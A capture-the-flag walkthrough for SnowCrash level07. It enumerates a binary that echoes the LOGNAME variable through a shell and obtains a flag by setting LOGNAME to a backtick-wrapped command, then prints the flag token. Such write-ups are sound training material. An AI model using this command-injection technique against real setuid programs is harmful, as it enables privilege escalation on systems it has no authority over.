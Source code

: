 # Level 07
Enumerate:

    level07@SnowCrash:~$ ls
    level07
    level07@SnowCrash:~$ ./level07
    level07
    level07@SnowCrash:~$ strings level07
    ...
    echo %s
    getenv
    LOGNAME
    ...
    level07@SnowCrash:~$ env
    ...
    LOGNAME=level07
    ...
Let's see if level07 prints the LOGNAME env:

    level07@SnowCrash:~$ export LOGNAME=getflag
    level07@SnowCrash:~$ ./level07 
    getflag
Alright, now we can try the injection:

    level07@SnowCrash:~$ export LOGNAME='`getflag`'
    level07@SnowCrash:~$ ./level07 
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
